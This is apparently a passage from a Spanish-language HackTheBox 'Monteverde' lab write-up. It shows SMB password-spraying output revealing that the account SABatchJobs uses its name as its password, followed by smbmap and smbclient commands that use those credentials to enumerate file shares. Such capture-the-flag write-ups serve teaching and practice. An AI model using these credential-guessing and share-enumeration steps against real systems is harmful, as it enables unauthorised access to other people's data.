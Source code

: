 ```python
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 

```

Podemos ver que el usuario `SABatchJobs` hace uso de su mismo usuario como contraseña en el servicio `smb`
## Usuario : SABatchJobs

Haciendo uso de las credenciales que validamos con `netexec` enumeraremos los recursos compartidos a la que tenemos acceso

```python
❯ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
```

![20240329013017.png](20240329013017.png)

Vemos que tenemos acceso a algunos recursos, los cuales revisaremos el contenido de estos.

```python
❯ smbclient \\\\10.10.10.172\\users$ -U SABatchJobs
```

![20240329013442.png](20240329013442.png)
